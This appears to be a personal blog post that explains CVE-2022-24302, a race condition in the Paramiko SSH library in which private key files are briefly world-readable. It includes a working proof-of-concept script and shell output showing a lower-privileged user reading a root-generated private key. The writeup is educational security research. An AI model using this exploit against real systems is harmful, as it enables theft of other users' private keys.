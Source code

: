 ```yaml
---
title: "Exploring Race Condition: Developing a Simple Exploit for CVE-2022-24302"
date: 2025-07-08T21:35:37+07:00
toc: true
tags:
  - security
  - code review
author: "Nam Nguyen"
description: "Explore how race conditions are exploited by building an exploit yourself"
---
```


Inter-Process Communication (IPC) is a family of mechanisms that allows processes to communicate with each other. These mechanisms are very important in modern software. However, if the developers misimplement these mechanisms, it could lead to race conditions and allows hackers to exploit it for malicious purposes. Today, we'll develop an exploit for a file-based IPC vulnerability in the Paramiko library, which is an SSH implementation in Python, to learn more about race conditions.

> Note: This is an exploit for CVE-2022-24302

## The vulnerability

Paramiko can be used to build SSH clients. In this library (Version 2.10.0), we can see there's a `_write_private_key_file` function:

```python
def _write_private_key_file(self, filename, key, format, password=None):
  with open(filename, "w") as f:
      os.chmod(filename, o600)
      self._write_private_key(f, key, format, password=password)
```

This function is used to write the private key to a file. The vulnerability lies in the first 2 lines of the function. It opens the file in write mode and change the permission of the file to a less privileged permission. The `open` function opens the file in a globally readable state, then the `os.chmod` changes it to a read-write permission to only the user associated with the process.

The vulnerability is between the `open` and the `chmod`, because the private key file is globally readable, a lower-privileged user can also open and read the file. Even though the private key write occurs after the `chmod`, we can still read it. This is due to file permissions being checked only when you open the file, once the file is opened, even if the permission is changed, it won't delete the opened file descriptor. The permission change only have an effect on new file descriptors.

So in order to exploit this vulnerability, we need to open the file after the private key file is opened and before the permission of the private key file is changed. Once we have opened the file, we can wait for the key write and then read the private key.

## The exploit

I created this program that will generate a private key and write it to a file:

```python
import paramiko

key = paramiko.rsakey.RSAKey.generate(2048)
key.write_private_key_file("./private.key")
```

Now, we can create our exploit program:

```python
import time

while True:
    try:
        f = open("./private.key", "r")
        print("Private key file opened successfully.")
        time.sleep(0.01)
        print(f.read())
        break
    except:
        continue
```

This will continuously try to open the private key file. Once it has opened it, it will wait a little bit then read the file and print the private key.

Now for the actual exploit, we first run our exploit program as a lower-privileged user:

```bash
$ whoami
user
$ python exploit.py
```

Next, we run the generate key program as a super user:

```bash
$ sudo python gen_key.py
```

If we check the exploit program again, we can see that it has successfully read the private key file even though it doesn't have the permission to read it:

```bash
$ python exploit.py
Private key file opened successfully.
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----

$ cat private.key
cat: private.key: Permission denied
```

And voila, a race condition exploit on a real world vulnerability.

## Conclusion

IPC is used pretty much everywhere nowadays, making protection against IPC attacks vital. This file-based IPC exploit is a simple demonstration for how this kind of vulnerability can be exploited.

This was a rather short blog post. I'm currently learning about vulnerability research and I found race condition vulnerabilities to be pretty interesting so I wanted to make this blog post. I hope you enjoyed this and learned something from it.
